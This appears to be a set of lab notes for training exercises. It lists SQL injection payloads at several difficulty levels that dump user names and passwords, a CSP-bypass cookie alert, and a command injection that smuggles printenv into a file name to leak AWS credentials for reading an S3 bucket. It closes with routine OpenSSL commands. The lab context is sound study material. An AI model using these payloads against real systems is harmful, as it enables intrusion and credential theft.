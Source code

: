 ## Low
**Attack :** %' or 1=1 union select null,concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users#
(or)
%' or 1=1 union select null,version()#

## Medium
**Attack :** 1 or 1=1 union select null,concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users
(or)
1 or 1=1 union select null,version()

## High
* Click on `Click here to change ID`
**Attack :** %' or 1=1 union select null,concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users#
(or)
%' or 1=1 union select null,version()#

# CSP Bypass
## Low
* go to hastebin
* make a file with contents
```js
alert(document.cookie);
```
* Save and go to `just text`
* Paste the link in the input field and click go.

# AWS Cloud Attack Defense Command Injection
* Upload the file
* Switch on proxy
* Catch in burpsuite
* Right click and send to repeater
* add printenv to the end of the Filename
* Collect the following from response
  * SESSION TOKEN 
  * SECRET_ACCESS_KEY
  * ACCESS_KEY_ID
* Export them in the terminal in the same order
* Run the following commands

```sh
aws s3 ls s3://temporary-public-image-store
aws s3 cp s3://temporary-public-image-store/flag.txt .
cat flag.txt
```
# Open SSL
* Install from https://slproweb.com/products/Win32OpenSSL.html 5MB File

ENCRYPTION:
`openssl enc -salt -aes-256-cbc -in file.txt -out enc.txt`

`openssl enc -d -aes-256-cbc -in enc.txt -out dec.txt`

HASH:
`openssl dgst -sha256 file.txt`

`openssl dgst -sha256 file.txt > hash.txt`
